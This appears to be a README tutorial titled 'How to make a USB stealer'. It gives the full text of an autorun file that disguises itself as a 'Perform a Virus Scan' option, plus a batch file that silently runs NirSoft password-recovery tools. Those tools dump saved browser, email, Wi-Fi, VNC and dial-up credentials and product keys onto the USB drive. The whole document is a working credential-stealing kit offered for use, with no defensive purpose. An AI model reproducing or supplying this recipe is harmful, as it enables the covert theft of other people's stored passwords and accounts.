 # HOW-TO-MAKE-A-USB-STEALER
HOW TO MAKE A USB STEALER

◼️TUTORIAL:

open notepad/wordpad
type:
[autorun]
open=launch.bat
ACTION= Perform a Virus Scan
save this as AUTORUN.inf

open a new notepad/wordpad document
type:
start mspass.exe /stext mspass.txt
start mailpv.exe /stext mailpv.txt
start iepv.exe /stext iepv.txt
start pspv.exe /stext pspv.txt
start PasswordFox.exe /stext passwordfox.txt
start OperaPassView.exe /stext OperaPassView.txt
start ChromePass.exe /stext ChromePass.txt
start Dialupass.exe /stext Dialupass.txt
start netpass.exe /stext netpass.txt
start WirelessKeyView.exe /stext WirelessKeyView.txt
start BulletsPassView.exe /stext BulletsPassView.txt
start VNCPassView.exe /stext VNCPassView.txt
start OpenedFilesView.exe /stext OpenedFilesView.txt
start ProduKey.exe /stext ProduKey.txt
start USBDeview.exe /stext USBDeview.txt
save this as LAUNCH.bat

copy the autorun and launch file to your USB

go to http://www.nirsoft.net/ and download the programs named in step 2

extract the files you downloaded to your desktop and copy all the .exe files to your USB
remove and re-insert your USB

click on the option perform a virus scan
(this is an example, if you want it to say something else go to the autorun file and change it ;) )
go to my computer—-> USB DRIVE and open it
you will now see some text files, if you open them you will see usernames and passwords
NOTICE: this only recovers passwords that have once been saved on your computer
